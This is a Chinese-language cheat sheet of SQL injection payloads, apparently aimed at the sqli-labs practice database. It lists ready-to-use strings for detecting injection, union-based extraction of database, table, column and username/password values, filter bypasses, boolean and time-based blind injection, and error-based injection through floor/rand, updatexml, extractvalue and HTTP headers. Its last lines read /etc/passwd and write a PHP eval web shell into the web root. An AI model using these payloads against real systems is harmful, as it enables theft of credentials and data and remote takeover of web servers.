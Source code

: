 # SQL注入payload总结

首先尝试字符 ' " ') ')) ") ")) ,先让页面出现错误，说明可能存在注入，然后再结合 and 1=1 --+让页面显示成功  之后判断确定的闭合方式  (有回显)

?id=1'
?id=1') --+ 判断闭合方式
?id=1") --+
?id=1' and 1=1 --+
?id=1' or 1=1 --+

过滤了空格和and or 
?id=1'%a0||'1 
?id=0'union%a0select%a01,database(),3%26%26'1'='1 
宽字节绕过，注释掉转义字符
?id=-1%E6' union select 1,version(),database() --+


过滤了注释符
?id=1' and 1='1  
?id=' or '1'='1
?id=' union select 1,database(),3 or '1'='1 爆库payload
?id=' union select 1,2,database() '  爆库payload
?id=' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() or '1'= '    爆表payload
?id=' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' or '1'= '     爆列名payload
?id=' union select 1,group_concat(username),group_concat(password) from users where 1 or '1' = '     爆值payload


?id=1' oder by 3（字段数）--+   测试字段数
?id=-1' union select 1,2,3 --+  
?id=-1' union select 1,database(),3 --+  爆出数据库名
?id=-1' union select 1,database(),user() --+ 爆出库名和当前用户
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+ 爆出当前数据库下的表名
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+    爆出字段名
?id=-1' union select 1,group_concat(username,0x3a,password),3 from users --+  获取表中的数据


?id=1' and sleep(3) --+ 延时注入
?id=1' and if(length(database())=8,sleep(5),1)--+ 时间盲注判断数据库名长度
?id=1' and if(left(database(),1)='s' , sleep(3), 1) --+ 时间盲注爆库
时间盲注爆出数据 就是再bool盲注基础上加上and if (  bool注入payload ,sleep(3),1)

?id=1' and length(database())=8 --+  盲注判断数据库名长度
?id=1' and left((select database()),1)='s'--+ 爆库payload
?id=1' and left((select database()),8)='security'--+ 爆库payload
?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+ 爆表payload
?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+ 爆列名payload
?id=1' and left((select password from users order by id limit 0,1),1)='d' --+ 爆字段值

?id=-1' union select count(*),count(*), concat('~',(select database()),'~',floor(rand()*2)) as a from information_schema.tables group by a--+ 报错注入
?id=-1' union select count(*),1, concat('~',(select database()),'~',floor(rand()*2)) as a from information_schema.tables group by a--+
?id=-1' union select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand(0)*2))as a from information_schema.tables group by a --+

 ' and updatexml(1,concat(0x7e,database(),0x7e),1) --+ 更新报错注入爆库
 ' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+  爆表名
 ' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) --+ 爆字段
 ' and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1) --+ 爆出数据

HTTP 头部  User-Agent:    Referer:
 'and extractvalue(1,concat(0x7e,(select database()),0x7e)) and'   爆表名
 'and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and'   爆字段
 'and extractvalue(1,concat(0x7e,(select group_concat(username,password) from users),0x7e)) and '  爆出数据


?id=-1' union select 1,load_file("/etc/passwd"),3 --+ 读取文件
?id=-1')) union select 1,2,'<?php @eval($_POST["flamingo"]);?>' into outfile "/var/www/html/yijian.php" --+ 上传文件
